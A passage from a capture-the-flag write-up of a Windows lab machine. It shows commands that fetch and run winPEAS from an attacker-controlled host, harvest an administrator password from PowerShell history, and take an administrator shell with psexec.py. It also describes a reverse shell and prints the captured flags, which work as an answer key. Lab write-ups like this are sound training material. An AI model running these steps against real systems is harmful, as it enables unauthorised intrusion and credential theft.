 ### Commands & Output
1. Downloaded `winPEASx64.exe`:
   ```powershell
   wget http://10.10.14.106/winPEASx64.exe -outfile winPEASx64.exe
   ```
   [Image Placeholder: download-winexe]
2. Executed `winPEAS`:
   ```powershell
   .\winPEASx64.exe
   ```
   [Image Placeholder: winpea-run]
3. Identified `SeImpersonatePrivilege` as exploitable for privilege escalation.
4. Checked PowerShell history:
   ```powershell
   type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
   ```
   - Found: `net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!`
   - [Image Placeholder: con-history]
5. Used `psexec.py` to gain administrator shell:
   ```bash
   psexec.py administrator:MEGACORP_4dm1n!!@10.129.73.77
   ```
   [Image Placeholder: admin-shell]
6. Navigated to Administrator’s Desktop for root flag:
   ```powershell
   cd C:\Users\Administrator\Desktop
   type root.txt
   ```
   [Image Placeholder: root-flag]

## 5. Post-Exploitation
- **Data Exfiltration**: None performed.
- **Persistence Method**: None established.
- **Interesting Files Found**:
  - `prod.dtsConfig` in `backups` share (contained `sql_svc` credentials).
  - `ConsoleHost_history.txt` (contained administrator credentials).

## 6. Results
- **User Flag**: 7b4bec00d1a39e3dd4e021ec3d915da8  
  [Image Placeholder: user-flag]
- **Root Flag**: b91ccec3305e98240082d4474b848528  
  [Image Placeholder: root-flag]

## 7. Lessons Learned
### Key Takeaways
- **Reconnaissance**: Nmap identified SMB (445/tcp) and SQL Server (1433/tcp) on Windows Server 2019, guiding further enumeration.
- **Enumeration**: SMB share `backups` revealed credentials in `prod.dtsConfig`. Impacket’s `mssqlclient.py` confirmed sysadmin access for `sql_svc`.
- **Exploitation**: Enabled `xp_cmdshell` to execute commands, downloaded `nc64.exe`, and established a reverse shell to access the user flag.
- **Privilege Escalation**: `winPEAS` identified `SeImpersonatePrivilege`. PowerShell history revealed administrator credentials, allowing `psexec.py` to gain root access.
- **Pentesting Tip**: Always check SMB shares for sensitive files and SQL Server for misconfigured permissions. Use tools like `impacket` for Windows authentication attacks.
